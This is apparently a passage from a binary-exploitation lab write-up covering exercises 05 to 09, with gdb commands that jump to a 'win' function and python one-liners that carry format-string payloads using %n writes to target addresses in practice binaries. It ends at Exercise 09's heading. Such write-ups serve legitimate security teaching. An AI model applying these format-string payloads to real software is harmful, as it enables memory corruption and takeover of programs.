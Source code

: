 
Result: Prints success message.

[exercise05](img/05.png)

## Exercise 06: Debugging a Broken Binary

Issue: The binary doesn’t function as intended due to a bug.

Workaround: In gdb, jump to the win function manually:

    `gdb ./bin`
    `jump *0x08048864`

[exercise06](img/06.png)

## Exercise 07: Format String Exploit

Tools: objdump, strings, gdb

Overview: The program uses fgets and contains a format-string vulnerability that can modify a target variable.

Exploit:

Address: 0x080496e4

Input: `python3 -c 'print("\xe4\x96\x04\x08" + "%60x%4$n")' | ./bin`


Result: Success message appears.

[exercise07](img/07.png)

## Exercise 08: Advanced Format String Exploit

Tools: objdump, gdb

Overview: The binary has a target variable requiring a specific value (0x1025544).

Exploit:

Address: 0x080496f4

Optimized input:

    `bash`

    `python3 -c 'print("\xf4\x96\x04\x08" + "%16930112x%12$n")' | ./bin`


Result: Success message.

[exercise08](img/08.png)

## Exercise 09: Format String Exploit

Goal: Redirect the exit function to call hello.

Key Information
